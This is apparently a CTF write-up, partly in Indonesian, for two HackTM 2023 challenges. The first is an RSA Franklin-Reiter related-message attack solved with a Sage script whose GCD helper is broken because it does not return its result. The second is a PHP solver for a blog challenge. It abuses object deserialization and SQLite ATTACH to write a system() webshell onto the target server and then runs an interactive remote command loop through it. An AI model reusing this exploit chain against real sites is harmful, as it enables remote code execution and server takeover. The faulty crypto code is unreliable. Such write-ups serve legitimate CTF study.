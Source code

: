 # Crypto - d-phi-enc

Franklin Reiter's attack on related messages.

source: https://github.com/ashutosh1206/Crypton/blob/master/RSA-encryption/Attack-Franklin-Reiter/README.md

Ketika 2 pesan berbeda dienkripsi dengan nilai e dan modulus N yang sama, akan tetapi pesan tersebut saling berkaitan, misalnya:

```
c1 = m^e % N
c2 = (m+constant)^e % N
```

Pada soal ini diketahui masing-masing persamaan berikut

```
enc_d = ((1-k*phi)/e)^3 % N
enc_phi = (phi)^3 % N
```

Berdasarkan uji coba yang saya lakukan ketika mencari nilai d dengan e=3, didapatkan nilai k yang relatif kecil yaitu antara 1 sampai 3, tapi kebanyakan yang saya temui adalah 2, oleh karena itu saya coba dengan nilai k=2, berikut script yang digunakan:

from: https://github.com/ashutosh1206/Crypton/blob/master/RSA-encryption/Attack-Franklin-Reiter/exploit.sage

```python
def GCD(a, b):
    while b:
        a,b = b, a % b
    a.monic()
def franklinreiter(C1, C2, e, N):
    P.<phi> = PolynomialRing(Zmod(N))
    f1 = ((1+2*phi)//e)^e - C1
    f2 = phi^e - C2
    return -GCD(f1, f2).coefficients()[0]
phi = franklinreiter(enc_d, enc_phi, 3, n)
d = pow(3, -1, phi)
flag = hex(pow(enc_flag, d, N))[2:]
print(bytes.fromhex(flag)) #b"HackTM{Have you warmed up? If not, I suggest you consider the case where e=65537, although I don't know if it's solvable. Why did I say that? Because I have to make this flag much longer to avoid solving it just by calculating the cubic root of enc_flag.}"
```

Write up crypto dari probset [https://github.com/y011d4/my-ctf-challenges/tree/main/2023-HackTMCTF-2023/crypto](https://github.com/y011d4/my-ctf-challenges/tree/main/2023-HackTMCTF-2023/crypto "https://github.com/y011d4/my-ctf-challenges/tree/main/2023-HackTMCTF-2023/crypto")

# WEB - Blog revenge

 Blog revenge solver
 
 ```php
<?php

include("util.php");

$GLOBALS["BLOG_REVENGE"] = "http://34.141.16.87:30001";

function request($payload)
{
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $GLOBALS["BLOG_REVENGE"] . "/index.php");
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
    curl_setopt($ch, CURLOPT_HTTPHEADER, array("Cookie: user=$payload"));
    $response = curl_exec($ch);
    curl_close($ch);
    return $response;
}

function register($creds)
{
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $GLOBALS["BLOG_REVENGE"] . "/register.php");
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
    curl_setopt($ch, CURLOPT_POST, true);
    curl_setopt($ch, CURLOPT_POSTFIELDS, "username=$creds&password=$creds");
    curl_exec($ch);
    curl_close($ch);
}

function shell(string $webshell)
{
    while (true) {
        $input = urlencode(readline("$ "));
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $GLOBALS["BLOG_REVENGE"] . "/images/$webshell?0=$input");
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
        $response = curl_exec($ch);
        echo $response."\n";
    }
    curl_close($ch);
}

$webshell = "asdwiqdpomqwdpo.php";

$conn = new Conn;
$conn->queries = array(
    new Query("ATTACH DATABASE '/var/www/html/images/$webshell' AS jctf;", array()),
    new Query("CREATE TABLE jctf.pwn (dataz text);", array()),
    new Query('INSERT INTO jctf.pwn (dataz) VALUES ("<?= system($_GET[0]); ?>");', array())
);

$username = "a";
$myobj = new User($username);
$myobj->profile = new Query("", "");
$myobj->profile->query_string = new User("");
$myobj->profile->query_string->profile = $conn;


$payload = base64_encode(serialize($myobj));
register($username);

$response = request($payload);
// echo $response;

shell($webshell);
```


## External writeup

[https://github.com/daffainfo/ctf-writeup/tree/main/HackTM%202023](https://github.com/daffainfo/ctf-writeup/tree/main/HackTM%202023 "https://github.com/daffainfo/ctf-writeup/tree/main/HackTM%202023")

- web/Blog

By: daffainfo
